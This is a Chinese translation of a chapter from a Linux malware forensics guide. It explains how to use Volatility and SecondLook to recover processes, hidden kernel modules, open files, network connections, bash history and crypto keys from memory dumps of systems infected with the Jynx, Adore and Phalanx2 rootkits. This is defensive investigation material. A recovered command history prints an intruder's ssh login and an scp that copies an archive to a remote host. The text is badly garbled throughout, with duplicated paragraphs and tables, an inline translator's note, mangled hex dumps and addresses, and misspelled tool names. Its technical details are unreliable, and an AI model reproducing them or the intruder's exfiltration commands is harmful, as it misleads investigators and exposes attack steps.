0x0080008f03b5d00    2759    0       Tue Oct 30 2012 07:56:45
0x0080008f04f8d00 tcpdump  2793    72      Tue Oct 30 2012 08:00:02
```

图 2.4—`linux_pslist` 插件从内存转储中提取进程

- `linux_pslist_cache` 包含了来自 slab 分配器空闲（列表）的进程，以提供活动、退出和隐藏进程列表。寻找隐藏进程的另一种方法是从 `kmem_cache` 中提取进程细节，如 `linux_kmem_cache` `Volatility` 插件所示。对于不使用 `slab` 分配（Linux 中 `task_struct` 结构使用的一种内存管理方式）的系统，通过扫描所有内容（carve all）可能会成效。`Volatility` 的开发包含了这一点，但这目前不是发布的一部分。

- 可以使用 `linux_psaux` 插件获取有关运行进程的更多细节，如图 2.5 所示。任何合法进程或线程的 `linux_psaux` 输出都应显示命令行或线程名称。

## 恶意软件在 Linux 系统中的取证指南


图 2.4—`linux_pslist` 插件从内存转储中提取进程

- `linux_pslist_cache` 包含了 slab 分配器空闲（列表）的进程，以提供活动、退出和隐藏进程列表。寻找隐藏进程的另一种方法是从“kmem_cache”中提取进程细节，如 `linux_kmem_cache` Volatility 插件所示。对于不使用“slab”分配（Linux 中“task_struct”结构使用的一种内存管理方式）的系统，通过扫描所有内容（carve all）可能会成效。Volatility 的开发包含了这一点，但这目前不是发布的一部分。

- 可以使用 `linux_psaux` 插件获取有关运行进程的更多细节，如图 2.5 所示。任何合法进程或线程的 `linux_psaux` 输出都应显示命令行或线程名称。

## 恶意软件在 Linux 系统中的取证指南

```text
Offset     Name                PID     Uid     Start Time
0x0080008f0579d0    2479    0       43061   Tue Oct 30 2012 07:33:15
0x0080008f05a7d0    2558    0       Tue Oct 30 2012 07:49:02
0x0080008f05c5d0    2562    500     Tue Oct 30 2012 07:49:27
0x0080008f05c4d0    2563    500     Tue Oct 30 2012 07:49:27
0x0080008f01d2e880    2595    500     Tue Oct 30 2012 07:50:28
0x0080008f01d8d00    2720    0       Tue Oct 30 2012 07:55:32
0x0080008f01f4c00    2726    500     Tue Oct 30 2012 07:55:59
0x0080008f01f4d00    2727    500     Tue Oct 30 2012 07:55:59
0x0080008f02e4c00    2755    500     Tue Oct 30 2012 07:56:43
0x0080008f03b5d00    2759    0       Tue Oct 30 2012 07:56:45
0x0080008f04f8d00 tcpdump  2793    72      Tue Oct 30 2012 08:00:02
```

(注：由于原文中存在大量段落重复，译文已根据核心内容进行了去重处理)

# Linux 系统恶意软件取证指南

| | | | | | | |

| 1801 | 10020 | com.android.defcontainer | Sat, 04 Aug |

| | | 2012 22:32:19 +0000 |

| 1811 | 10033 | com.google.android.partnerset | Sat, 04 Aug |

| | | 2012 22:32:20 +0000 |

| 1823 | 10068 | com.svox.pico | Sat, 04 Aug |

| | | 2012 22:32:21 +0000 |

| 1831 | 10080 | com.noshufou.android.su | Sat, 04 Aug |

| | | 2012 22:32:21 +0000 |

| 1841 | 10087 | com.android.voicedaler | Sat, 04 Aug |

| | | 2012 22:32:22 +0000 |

| 1849 | 10034 | com.google.android.googlequick... | Sat, 04 Aug |

| | | 2012 22:32:21 +0000 |

| 1860 | 10093 | com.133t.seccncviewer | Sat, 04 Aug |

| | | 2012 22:32:22 +0000 |

| 1872 | 0 | /system/bin/sh | Sat, 04 Aug |

| | | | 2012 22:32:55 +0000 |

| 1873 | 0 | insmod/sdcard/linux-evo.ko path=tcp:444 Form | Sat, 04 Aug |

| at=lime | | | 2012 22:33:09 +0000 |

| 1874 | 0 | [flush-0:17] | Sat, 04 Aug |

| | | | 2012 22:33:28 +0000 |

| 1878 | 1000 | com.android.settings | Sat, 04 Aug |

| | | | 2012 22:33:40 +0000 |

# 关系重构

- 在 Linux 内存中检查进程时，进行关系重构也是很有成效的，它可以描绘进程之间的父子关系。

- 由于恶意软件尝试绑定到系统中的合法进程中，数字调查人员可能会看到 "bash" 进程产生了一个名为 "init" 的进程，以模拟 Linux 的启动过程。观察这种关系重构的一种方法是寻找一个仍然具有系统进程特征的进程。相反，寻找产生未知进程或可执行文件的进程，而这些文件通常由用户启动。图 2.8 显示了使用 `pstree` 的进程树关系。

```
% python volatility/vol.py -f memorydmps jynx-fmem.bin \
profile=LinuxUbuntu086 pstree
<enabled for length>
Name Pid Uid
..backdoor 3244 0
..bash 4251 0
..init 4265 0
```

**图 2.8：** Volatility_pstree 输出显示一个用户进程 (`bash`) 产生了一个看起来像系统的进程 (`init`)

# 分析技巧

# 时间与关系分析

来自其他取证领域的分析技术可以应用于恶意软件取证，以为证据和相关操作提供见解。内存分析中最常见的时间分析形式是时间线，而最常见的关系分析形式是进程树。在所有情况下都应该创建时间线和进程树图，以确定进程是否明显晚于标准系统进程，或者是否存在上述讨论的异常关系。可执行文件的完整路径以及进程拥有的任何文件也可能提供指向恶意软件的线索。数字调查人员应该寻找内存中的时间戳和关系。

# 调查因素

- 某些合法进程（如防病毒软件和其他安全工具）可能具有与恶意软件常见的特征。因此，入侵者可能会误导数字调查人员。因此，在将其排除在分析之外，不要仅仅因为它们的名称看起来合法。花时间检查其详细信息。

# 模块与库

- 提取内存中与模块和库相关的细节，并分析它们以确定哪些与恶意软件有关。

- Linux 内存使用模块和库来执行核心功能，如隐藏和键盘记录。除了进程和线程，检查加载在 Linux 系统上的驱动程序和库也是重要的。

# 内存分析工具

- Volatility 的 `linux_ismod` 插件提供了系统运行模块列表。`linux_check_modules` 插件可以用于发现列表与 "`sysfs`" 之间的差异以检测隐藏模块。KBean rootkit 提供了这种分析方法的示例。

> ¹⁵ Andrew Case (2012) "KBean Rootkit, Detecting Hidden Modules, and sysfs," http://volatility-labs.blogspot.com/2012/09/movp-15-rootkit-detecting-module.html.

SecondLook 执行此比较并将结果显示在 Information 选项卡下，如图 2.9 所示，对于 Adore rootkit，潜在隐藏的模块用红色高亮显示。¹⁶

| Analysis | Alerts | Information | Disassembly | Data |

| --- | --- |---|---|---|

| General | | 点击地址查看反汇编和数据视图。 | | |

| Kernel Message Buffer | | Address | Module or Subsystem Name |

| Kernel Page Tables | | | | |

| Kernel Symbols (Refer) | | | 0xffffff88f400 | autofs4 |

| Kernel textdos Miss | | | 0xffffff880f30 | ppdev |

| Loaded Modules (kalsy) | | | | |

| Module Systems (kalsy) | | | | |

| Sys Modules List | | | 0xffffff8809760 | usb_sp1 |

| Virtual Locations | | | |

图 2.9—SecondLook 使用 sysfs 中的信息检测隐藏模块添加，SecondLook 有函数可以检查内核模块列表中未找到模块的虚拟内存分配。此比较的结果列在 Alloc 列表中，如图 2.10 所示，对于 Adore rootkit，有一个名为 `usb_sp1` 的隐藏模块。

| Analysis | Information | Disassembly | Data |

| --- | --- |---|---|---|

| General | | 点击地址查看反汇编和数据视图。 | | |

| Kernel Message Buffer | | Address | Size | Module Name |

| Kernel Page Tables | | | | |

| Loaded Modules (Refer) | | | 0xffffff88f400 | 69632 | autofs |

| Kernel textdos Miss | | | 0xffffff88f900 | 49512 | ppdev |

| Module Systems (kalsy) | | | 0xffffff8809760 | 69632 | usb_sp1 |

| Sys Modules List | | | | |

| Virtual Locations | | Legend: | Non-hidden Module-module Subsystem | Potential Hidden |

图 2.10—SecondLook 使用虚拟内存分配检测隐藏模块——另一个在一个或多个进程的库中发现恶意软件轨迹的区域。这种方法在处理注入合法进程的恶意软件时特别有用。该 rootkit 提供了这种分析方法的示例.¹⁷ volatility proc_maps 可列出每个进程的库，图 2.11 显示了分配给每个进程的内存区域，用**粗体**显示 rootkit。SecondLook 查看 Mapping 部分中每个进程使用的库和内存区域，图 2.12 用**绿色**显示 rootkit。¹⁶ Adore rootkit 由 Sebastian Kramer "stealth" (http://stealth.openwall/) 移植到 Linux.¹⁷ 有关该 rootkit 的更多信息，请访问 http://www.blackhat.net/speeches/root/2.0。

# 第 2 章 Linux 取证

```
% python volatility.py -f memorydmps/jynx-fmem.bin
profile=LinuxUbuntu086 linux_proc_maps -p 32739
<enabled>
  rw 24576 0:3 271025
  rw /lib/i386/libc.so.2.10
0c3a00-0c4e00 0:3 245935 /lib/i386/libc.so.1.2.3
0c4e00-0c5e00 77782 0:3 245935 /lib/i386/libc.so.1.2.3
0c5e00-0c6d00 81920 0:3 245935 /lib/i386/libc.so.1.2.3
0c6d00-0c7f00 0:3 271021 /lib/i386/libc/ld-2.10
0c7f00-0c7a00 4096 0:3 271021 /lib/i386/libc/cmov-2.10
0c7a00-0c7100 81920 0:3 271021 /lib/i386/libc/cmov-2.10
0c7a00-0caca00 0:3 516098 /Xxj/jynx/j22.so
0caca00-0cbd400 0:3 516098 /Xxj/jynx/j22.so
0cbd400-08a400 20480 0:3 /Xxj/jynx/j22.so
08a400-08b190 0:3 163013 /bin/bash
08b190-08c1a0 85698 0:3 163013 /bin/bash
08c1a0-08d200 0:0 /bin/bash
08d200-086c00 0:0 [heap]
```

图-12. 给定进程的 linux_proc_maps 显示 jynx rootkit `/Xxj/jynx/j22.so`

| Analysis | Information | Disassembly | Data | Start | End | Flags |

|---|---|---|---|---|---|

| Kernel text | | 32739 | bash | 0x0000000-0x007000 | r-x | /lib/i386/cmov/ |

| Loaded Modules | | 32739 | bash | 0x0000000-0x007000 | r-p | /lib/i386/cmov/ |

| Module Symbols (kernel) | | 32739 | bash | 0x0000000-0x007000 | r-p | /lib/i386/cmov/ |

| MySys Modules | | 32739 | bash | 0x0000000-0x007000 | rw- | /lib/i386/cmov/ |

| Virtual Allocations | | 32739 | bash | | | |

| Active Tasks | | 32739 | bash | | | |

| Memory Mapping | | 32739 | bash | | | |

| System Call | | 32739 | bash | | | | |

| Interrupt Table | | 32739 | bash | | | | |

| Kernel Routers | | 32739 | bash | | | | |

| LSM Hooks | | 32739 | bash | | | | |

| Kernel Notifs | | 32739 | bash | | | | |

- 如果某个特定的库或内存区域感兴趣，通常最好使用图 2.11 所示的 `linux_dump_map` 插件对数据进行更深入的分析，并使用 `-p` 参数为所有内存区域指定 PID。

```
% python volatility.py -f memorydmps/jynx-fmem.bin \
profile=LinuxUbuntu086 linux_proc_maps -p 32739 -s 0xca700 -0 jynx-so-ca700-extracted
Writing to jynx-so-ca700-extracted
write 20480 bytes
# hex "jynx-so-ca700-extracted"
0000000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ... ELF,
0000010 03 03 00 00 01 01 00 00 00 34 00 00 06 28 00 ... LF., 4..
0000020 45 55 00 00 00 00 00 00 34 20 00 00 06 28 00 ... EU, 4..
0000030 01 1c 19 00 01 00 00 00 00 00 00 00 00 00 00
0000040 00 00 00 00 2c 4a 00 05 2c 4a 00 05 00 00 ... J.,.,J.,.
0000050 00 10 10 00 00 00 00 00 00 00 5c 5c 00 00 ... \
0000060 ec 52 00 64 02 00 00 00 02 06 00 00 00 ... \".d.."
```

图 2.13—用于指定特定库的 linux_dump_map volatility 插件

SecondLook 内置了分析执行代码的能力，位于“Disassembly”（反汇编）选项卡下，如图 2.14 所示，其显示的内存区域与图 2.12 中包含 Jynx rootkit 的内存区域相同。在 SecondLook 的“Data”（数据）选项卡下也可以查看内存数据的十六进制视图。

| 分析 | 告警 | 信息 | 反汇编 | 数据 |

|---|---|---| PID 32739 | 起始地址: 00ca7000 |

| 标签数据 | 反汇编 | 引用数据 | | |

| 00ca7000 | 7f 45 | Jg 00ca7000 | | |

| 00ca7002 | 4c | dec ^esp | | |

| 00ca7003 | 46 | inc ^esi | | |

| 00ca7004 | 01 01 | add ^ax, (ecx) | | |

| 00ca7006 | 01 00 | add ^ax, (ecx) | | |

| 00ca7008 | 00 00 | add ^al, (ecx) | | |

| 00ca700a | 00 00 | add ^al, (ecx) | | |


**图 2.14.** 使用 SecondLook 对内存区域进行反汇编，显示注入到合法进程 (PID 32739) 中的 Jynx rootkit 关联的执行代码开头

## 调查考虑

- 如 `Phalan2` 等更高级的 rootkit 不加载其恶意内核模块，从而在不在“vmalloc”或“sysfs”下的“sys/modules”中留下任何痕迹的情况下有效地实现了其隐藏机制。上述内存取证工具中实现的方法无法检测这些基于内核模块的 rootkit。
- 在某些情况下，需要了解某个库的功能以确定其是否正常。例如，如果知道`libsol.so`提供 DNS 查询功能，那么当它被一个不需要网络访问的程序调用时，应该引起警觉。
- 如 `Phalan2` 等更高级的 rootkit 是静态编译的，不使用任何库。一方面，这使得基于加载库的分析来检测和分析变得更加困难；另一方面，没有任何库的进程是不寻常的，这可能是该进程可疑的线索。

## 打开的文件和套接

- 检查打开的文件和套接，以寻找与恶意软件相关的项，如配置文件、击键日志和网络连接。
- 每个进程访问的文件和套接可以深入了解它们在受感染系统上的运行情况。后门程序或 rootkit 可能会打开其监听端口，键盘记录器可能有一个日志文件来存储捕获的击键，而设计用于搜索磁盘中的个人身份信息 (PII) 或受保护健康信息 (PHI) 的恶意软件可能会有多个包含社会安全号、信用卡号和其他敏感数据的打开文件。

## 内存分析工具

- Volatility 中的 `linux_lsof` 插件可用于显示每个进程正在访问的文件。在图 2.15 中，列出了特定进程打开的文件，包括一个与下方所示调查相关的敏感数据文件。

```
$ python volatility/vol.py -f Phalanx2-20121031.dd linux_lsof -p 2793
<edited for length>
2793 0 /dev/pts/0
2793 1 /dev/pts/0
2793 2 /dev/pts/0
2793 3 socket:[26234]
2793 4 /usr/share/xxxxxxxxxxxxxx.xx/capture.pcap

2479 0 /dev/null
2479 1 /dev/null
2479 2 /dev/null
2479 3 socket:[21211]
2479 4 socket:[21212]
<edited for length>
```

**图 2.15**—使用 Volatility `linux_lsof` 选项解析目标内存

- 当某个打开的文件感兴趣时（例如恶意软件用于捕获用户名、密码或网络流量的文件），可以使用 `linux_find_file` Volatility 插件从内存中提取它以进行进一步检查。

为了执行此操作，必须首先获取文件的 inode 编号，然后将其内容转储到磁盘，如图 2.16 所示。

```
$ python volatility/vol.py -f Phalanx2-20121031.dd linux_find_file -F
/usr/share/xxxxxxxxxxxxxx.xx/capture.pcap"
Inode Number Inode
---------------- -----
276884 0x88001d0c1f80

$ python volatility/vol.py -f Phalanx2-20121031.dd linux_find_file -i
0x88001d0c1f80 -o output/capture.pcap
```

**图 2.16**—Volatility 插件从内存转储中提取感兴趣的文件

在许多情况下，将运行在受损系统上的进程与在网络上观察到的活动关联是非常必要的。

## Linux 系统恶意软件取证指南

- 建立这种关联的常用方法是确定每个进程使用的端口，并查找这些端口的网络活动。
- 如果内存中有与特定进程关联的打开端口或活动网络连接，可以使用 Volatility 插件提取。如图 2.17 所示，现有的内存取证无法区分正常条目和 rootkit 隐藏的条目，因此需要从活动系统获取结果进行比较。Volatility 还提供了 `linux_arp` 插件来显示 ARP 缓存。

```
$ python vol.py -f phalanx2-20121031.dd --profile=Linux linux_netstat
TCP 127.0.0.1:45842 127.0.0.1:45842 ESTABLISHED net/247
TCP 127.0.0.1:50271 127.0.0.1:45842 ESTABLISHED net/279
TCP 192.168.1.205:14901 192.168.1:59506 ESTABLISHED sshd/288
TCP 192.168.1.205:10202 192.168.1:59506 ESTABLISHED sshd/262
TCP 192.168.1.205:14901 192.168.1:59518 ESTABLISHED sshd/270
TCP 192.168.1.205:10202 192.168.1:59518 ESTABLISHED sshd/226
TCP 192.168.1.205:14901 192.168.1:49710 ESTABLISHED sshd/381
TCP 192.168.1.205:10202 192.168.1:49710 ESTABLISHED sshd/247
TCP 192.168.1.205:14901 192.168.1:52837 ESTABLISHED sshd/344
TCP 192.168.1.205:10202 192.168.1:52837 ESTABLISHED sshd/340
```

**图 2.17**—使用 `linux_netstat` 插件列出网络连接，包括被 Phalanx2 rootkit 隐藏的连接

- `linux_pkt_queues` 输出每个进程的数据包，而 `linux_sk_buff` 输出 "kmem_cache" 中 "sk_buff" 区域的数据包。

SecondLook 也可以列出打开的文件，如图 2.18 所示。此示例显示了一个“tcpdump”进程将输出保存到文件中。

| PID | 命令 | 文件描述符 | 类型 |  |

|---|---|---|---|---|

| Module text/root/mask | 2793 | tcpdump | Character | /dev/pts/0 |

| Active Files | 2793 | tcpdump | 1 | Character | /dev/pts/0 |

| Open Files | 2793 | tcpdump | 2 | Character | /dev/pts/0 |

| Memory Maps | 2793 | tcpdump | 3 | Socket |  |

| System Call Table | | | 4 | File | /usr/share/ |

| Kernel Modules | | | |  |

**图 2.18**—使用 SecondLook 解析内存转储中的打开文件（路径出于安全目的已屏蔽）

- 图 2.19 显示了 SecondLook 为图 2.17 中的 Phalanx2 rootkit 示例列出的网络连接。

## 第 2 章 Linux 内存取证

| 协议 | 源地址 | 源端口 | 目的地址 | 目的端口 |

|---|---|---|---|---|

| TCP | 0.0.0.0 | 22 | 0.0.0.0 | 0 |

| TCP | 0.0.0.0 | 111 | 0.0.0.0 | 0 |

| TCP | 127.0.0.1 | 50271 | 127.0.0.1 | 45842 |

| TCP | 127.0.0.1 | 45842 | 127.0.0.1 | 50271 |

| TCP | 127.0.0.1 | 25 | 0.0.0.0 | 0 |

| TCP | 192.168.1.205 | 22 | 192.168.1.119 | 55906 |

| TCP | 192.168.1.205 | 22 | 192.168.1.119 | 49710 |

| TCP | 192.168.1.205 | 192.168.1.119 | 5518 |

| TCP | 192.168.1.205 | 22 | 192.168.1.95 |

| TCP | 192.168.1.205 | 54901 | 192.168.1.119 | 5518 |

**图 2.19**—内存转储中被 Phalan 隐藏的连接

- 额外的连接信息可以使用提取方法从内存中恢复。例如，图 2.20 列出了由 DFR2008 参赛者从内存中提取的历史连接。

| 地址 | 源 | 目的 | 协议 |

|---|---|---|---|

| 0x08ce7b8 | 192.168.1.130:42137 | 219.93.175.67:80 | TCF |

| 0x08ff0b8 | 192.168.1.130:42137 | 219.93.175.67:80 | TCF |

| 0x0e449d8 | 192.168.1.130:56205 | 219.93.175.67:80 | TCP |

| 0x0e44c68 | 10.2.0.2:10333 | 198.105.193.114:80 | TCP |

| 0x0e54f00 | 10.2.0.2:10333 | 10.2.0.1:21 | TCF |

| 0x0e54fe48 | 10.2.0.2:10333 | 10.2.0.1:21 | TCP |

**图 2.20**—使用提取方法从 Linux 内存中恢复的网络连接

# Linux 系统恶意软件取证领域指南

- 恶意代码在计算机系统上创建的印象和痕迹证据，即使在这些制品从计算机中隐藏或删除后，也可以在内存中找到。
- 例如，与恶意软件相关的文件名、配置参数或系统日志条目在实际文件被删除或对操作系统隐藏后，可能仍然留在内存中以及相关的元数据。
- 内存取证工具正在开发中，以解释日益增加的数据结构。

> 计算机系统中存在的任何数据结构都可以在内存中找到。例如，文件系统信息通常缓存在内存中，这可能为数字调查人员提供与恶意软件及相关活动的线索。

> 当你对分析某个特定进程感兴趣时，有很多你想要寻找的内容，包括与恶意代码相关的 IP 地址、主机名、口令和加密密钥。这些信息中的部分可以通过提取字符串或执行关键字搜索找到。

# 系统详情与日志

> 在内存转储中，可能恢复从磁盘日志文件中删除的系统配置详情和“syslog”记录，这些显示了与恶意软件相关的活动。

- 使用第 3 章“关键字搜索”节描述的搜索技术，可以在内存转储中找到恶意活动的痕迹。
- 除了搜索特定关键字外，通常使用自动化方法提取信息和日志是理想的。例如，图 2.21 显示了从被 Phalanx2 rootkit 攻击系统的内存转储中提取的部分“dnsstat”信息，显示即使在删除条目从日志文件中删除后，它仍然显示了一个指向“**Xnext**”的加粗显著条目。
- 从内存转储中提取“ump”并获取连接到系统的用户列表可能是很有启发意义的。

```bash
$ python vol.py -f Phalanx220210213.dump --profile=LinuxFedora14x64 linux_dump
edited for length:
<7> 03.38382 SELinux: initialized (dev, file type, fuse) uses gens_contexts
<6> 276.103966 Program Xnext tried to access /dev/mem 0->8000000.
<6> 1468.610156 abrt-hook-ccomp[2643]: segfault at 0 0000005ebbf25df sp
000000007b6daec 0x12.90.50 (15be0000+199000)
<4> 1468.610156 Process 2643 (abrt-hook-ccomp) has LIMIT_CORE set to 1
<4> 1468.610156 Aborting core
edited for length:
```

图 2.21- 使用 volatility 从内存转储中从 dnsstat 提取的信息

> Andrew Case (2012) “Average Coder Rootkit, Bash History, and Elevated Processes,” http://volatility-labs.blogspot.com/2012/09/movp-14-average-coder-rootkit-bash.html。

# 临时文件

存储在内存驻留临时文件系统（如 RAM 磁盘、加密磁盘以及某些 Linux 系统上的“tmp”）可能包含与恶意软件事件相关的信息。虽然临时文件不会出现在被入侵系统的文件中，但它们可以从内存中恢复。可以使用 `linux_tmpfs` 插件列出所有挂载的临时系统，并使用 `-D` 提取文件内容进行进一步的取证检查，如图 2.22 所示。

```bash
% python vol.py -f Evo4Dhomeo linux_tmpfs -L
1 -> /mnt/app-cache
2 -> /mnt/obb
3 -> /mnt/abc
4 -> /mnt/sdcard

% python vol.py -f Evo4Dhomeo linux_tmpfs -S 4 -D Android/sdcard-secure
<files in /mnt/sdcard/ android_secure>
```

图 2.22- 使用 `linux_tmpfs` Volatility 插件从内存转储中提取的 Android 设备上的 tmpfs 系统

# 命令历史

- 如第 1 章所述，获取 Linux shell 中执行的命令历史可以深入了解系统上的攻击活动。作为研究人员，入侵者为了掩盖足迹可能会删除被入侵系统的命令历史文件。在这种情况下，仍然可能从内存中恢复命令历史。
- 使用 Volatility `linux_bash` 插件从内存转储中提取在给定 shell 中运行的命令历史。然而，必须通过检查相关系统的“bin/bash”二进制文件来定义内存中历史列表的偏移。当内存转储中存在多个 Bash 会话时，可以通过指定 PID 提取每个进程的命令历史。在内存中与磁盘不同，bash 历史每个命令都带有时间戳，如图 2.23 所示，日期字符串位于最后一行。

> Andrew Case (2012) “Recovering tmpfs from Memory with Volatility,” http://memoryforensics.blogspot.com/2012/08/recovering-tmpfs-from-memory-with.

# Linux 系统恶意软件取证领域指南

```bash
$ gdb /evidence/bin/bash
GNU gdb (Ubuntu-Linaro 7.4) 7.4
<edited for length>
Reading symbols from /bin/bash... (no debugging symbols found)....done.
(gdb) disassemble history_list
Dump of assembler code for history_list:
0x08ea40 mov %e,0x%abc
0x08ea45 ret
End of assembler.

$ python volatility/vol.py -f evidence/memory_dump.vmem \
--profile=Ubuntu12x86 linux_bash -H 0x812dabc

Command
ssh owned@192.168.15.6
scp valuable.tar@192.168.15.6:
sudo .bash_history
sudo shutdown -h now

user@ubuntu:~ $ date
Mon Oct 31 17:37:31 EDT
```

图 2.23— 使用 `gdb` 确定内存中历史列表的偏移（offset = 0x812dabc）并使用 Volatility `linux_bash` 插件从内存转储中提取历史

# 加密密钥与密码

恶意软件可以使用身份验证和加密机制执行深度取证分析。与常用加密方案加密密钥可以从内存转储中提取，可能允许调查人员解锁攻击者试图隐藏的信息。

- `aeskeyfind` 和 `rsakeyfind` 程序包专门用于搜索内存转储中的加密密钥。
- 另一个名为 `interrogate` 的工具可用于从内存搜索内存转储中的加密密钥，该示例支持 AES、RSA 及其。图 2.24 显示

```bash
$ interrogate -a aes -k 256 evidence/memory_dump
Interrogate Copyright (C) 2008 Maarten-Moeca <email>
This is free software, you are welcome to redistribute under certain conditions; see licence.txt

Using key size: 256 bits.
Using input file: evidence/memory_dump.
Attempting to load entire file into memory...
Success, starting search.
```

图 2.24— 使用 `interrogate` 在内存转储中搜索 AES 密钥

- `aeskeyfind` 和 `rsakeyfind` 大多数 Linux 版本可以通过相应的包管理器原生提供

# 第 2 章 Linux 内存取证

使用 `interrogate` 搜索内存转储中的加密密钥，


- 有关 `interrogate` 的更多信息，请访问 `http://sourceforge.org/projects/interrogate/`。

- Maartmann-Moeca, C., Thorkilsen, E., Amnes A (2009) "The persistence of memory: Forensic identification and extraction of cryptographic keys," DFRWS2009。

- 所有这些工具都可能导致许多误报，但它们通常没有漏报，因此可以尝试生成的加密密钥列表。

- 其他与密码和加密密钥相关的字符串包括 `"password ="` 和 `"----- BEGIN SSH"`。

# 分析提示

# 内存结构

Linux 中还有许多可以用于恶意软件分析的内存结构。例如，进程的内存使用信息存储在 `"mm_struct"` 数据结构中，它与该进程相关的 `"task_struct"` 链接。信息包括页目录的位置、进程使用的内存段的起始和结束位置，以及 `"vm_area_struct"`，它包含了进程使用的每个内存区域的地址及其访问权限。当特定内存区域包含文件时，内存中还有关于目录条目和节点的详细信息的附加结构。此外，`tcp_hashinfo` 数据结构包含一个已建立和监听的 TCP 连接列表。内存取证的发展让数字调查人员更容易获取这些有用的数据结构。

## 调查考虑因素

- 内存中的数据结构可能完整的，应该通过其他信息源进行验证。同时，即使只有部分结构，它也可能包含线索，引导数字调查人员找到文件系统上的有用信息。例如，如果从内存转储中仅恢复部分文件（例如可执行文件的一部分或嗅探日志的片段），它可能仍有助于专注于取证检查的有用信息。

- 并不是所有的内存数据结构都能被内存取证工具自动解释。本章开头讨论的旧方法可以为恶意软件提供额外的背景信息。此外，通过实验和研究可能可以确定内存转储文件（`memory dump`）中特定数据结构的格式。

## 分析技巧

### 探索数据结构

除了 Linux 操作系统数据结构外，任何应用程序都可以在内存中拥有独特的数据结构。因此，内存中数据结构的变体程度仅限于系统上使用过的程序，包括点对点程序和即时消息客户端。数字取证调查人员在处理应用程序时应记住这一点，并可能需要进行研究以解释与他们特定案件相关的数据结构。学习如何解释数据结构最有效的方法是通过应用科学法并进行受控实验。

### 转储进程内存

在许多情况下，当检查感兴趣的特定进程时，可能从 Linux 系统获取的内存转储文件中提取必要信息。此外，让调查人员从存活系统（`live system`）中提取与某些可疑进程相关的内存内容有时是有价值的，这将极大地减少需要解析的数据量。本节将同时解决这两种需求。

## 分析技巧

### 最小化对证据的影响

通常，应该在完成全内存转储后才收集进程内存，因为许多用于转储进程内存的工具会影响物理系统。此外，为了在调查期间减少与目标系统的交互，应如第 1 章所述，使用来自 CD 或 U 盘等外部介质的可靠的（理想情况下是静态链接的）二进制文件。

- 提取内存中的恶意可执行文件和相关数据以进一步分析。

- 当你感兴趣分析的特定进程时，你将想要获取两个内存区域：可执行文件本身以及进程用于存储数据的内存区域。这两个区域都可以使用内存取证工具从内存转储文件中提取。

### 恢复可执行文件

当在目标系统中识别出可疑进程时，通常从内存转储文件中提取相关的可执行代码进行分析。尽管这看起来可能很简单，但从内存转储文件中恢复完整的可执行文件可能是困难的。首先，可执行文件在内存中运行时会变化，因此通常无法恢复与磁盘上存在完全相同的可执行文件。包含可执行文件的页面可能会交换到磁盘，在这种情况下，这些页面将不在内存转储文件中。此外，恶意软件尝试自我混淆，这使得获取其结构和内容的信息更加困难。在考虑到这些限制的情况下，恢复可执行文件的基本流程如下：

1. 读取 `task_struct` 进程结构，以确定 `mm_struct` 在内存中的位置。

2. 读取 `mm_struct` 结构，以确定内存中可执行代码的起始地址和结束地址。

3. 提取与 ELF 可执行文件相关的页面并将它们合并成单个文件。

- 幸运的是，像 Volatility 这样的取证工具可以处理并将进程或内存相关的可执行文件保存到文件中。例如，Volatility 的 `linux_dump_map` 保存了包含与进程相关的可执行代码的可用页面。可以使用 Volatility 的 `linux_dump_map` 恢复完整的可执行文件，如图 2.25 所示，它访问页缓存以获取与可执行相关相关的所有页面

```
$ python.py -f Phalanx2 linux_proc_maps -p 2479
0x0400000-0x415000 r-x 0: 3 275603 /usr/share/
xxxxxxxxxxxxxxxxx/p-.2-5 86016 8: 3 275603 /usr/share/
0x1500000-0x160000 r-w 0: 0 0
xxxxxxxxxxxxxxxxx/p-.2-5
0x0616000-0x61a000 r-x 0: 0 0
0x77f9a8bb00-0x77fa9b2bee r-w 0: 0 0
0x77ffa300-0x77ffa5d500 r-w 0: 0 0
0x77ff4c3300-0x77ff4c35500 r-w 0: 0 0 [stack]
0x77ff4d9700-0x77ff4d9900 r-x 0: 0 0

$ python.py -f Phalanx2 linux_dump_map -p 2479 -s 0x400000-0 Phalanx2-400000
Writing to file: Phalanx2-400000
Wrote 2862 bytes
```

图 2.25- 使用 `linux_dump_map` volatility 从内存转储文件中提取 Phalanx2 rootkit 可执行文件

- 在某些情况下，可能使用 `linux_find_file` volatility 插件从内存中缓存的文件系统信息中提取可执行文件。为了执行此操作，首先需要获取文件的 inode 节点，然后将其内容转储到磁盘，如图 2.26 所示。

## LINUX 系统恶意软件取证指南

```
$ python volatility/vol.py -f Phalanx2-20121031.dd_linux_find_file -F
/usr/share/xxxxxxxxxxxxxx.xx -p.5f
Inode Number
-----------------------
275603 0x8800d01ba8
python volatility/vol.py -f Phalanx2-20121031.dd_linux_find_file -F
0x8800d1ba8 -o/phalanx2
```

图 2.26- 使用 `linux_find_file` 提取 Phalanx2

### 分析技巧：对内存转储中的可执行文件运行反病毒软件

数字取证人员可以对内存转储中提取的可执行文件运行反病毒软件，以判断它们是否包含恶意软件。这可能会导致误报。

### 恢复内存

除了获取进程的元数据和可执行代码外，通常还希望提取进程的所有内存。可以使用 `memmap` 插件通过 Volatility 提取特定的内存。在 SecondLook 中，可以将内存保存到文件中，如图 2.27 所示。

| 分析 | 信息 | 长度 |

|---|---|---|

| 地址空间:内核 | 起始地址: b8f17ed0 | 结束地址: b8f17ef8 | 4096 |

| 刷新 | | |

| b8f17ed0 | 00 00 00 00 ea 17 f0 4 | |

| b8f17ef8 | 00 00 00 00 c7 17 f1 0 | |

| b8f17f0 | 00 00 00 00 75 23 00 00 | |

| b8f17f4 | 00 00 00 00 81 64 00 00 | |

| b8f17f6 | 00 00 00 00 9c 18 18 00 | |

| b8f17f8 | 00 00 00 00 00 00 00 00 | |

| b8f17f9 | 00 00 00 00 00 00 00 00 | |

| b8f17fa | 00 00 00 00 00 00 00 00 | |

| b8f17fb | 00 00 00 00 00 00 00 00 | |

| b8f17fc | 00 00 00 00 a4 24 00 00 | |

| b8f17fd | 00 00 00 00 00 00 00 00 | |

| b8f17fe | 00 00 00 00 00 00 00 00 | |

| b8f17ff | 00 00 00 00 00 00 00 00 | |

| b8f1800 | 00 00 00 00 00 00 00 00 | |

| b8f1801 | 00 00 00 00 00 00 00 00 | |

| b8f1802 | 00 00 00 00 00 00 00 00 | |

| b8f1803 | 00 00 00 00 00 00 00 00 | |

| b8f1804 | 00 00 00 00 00 00 00 00 | |

| b8f1805 | 00 00 00 00 00 00 00 00 | |

| b8f1806 | 00 00 00 00 00 00 00 00 | |

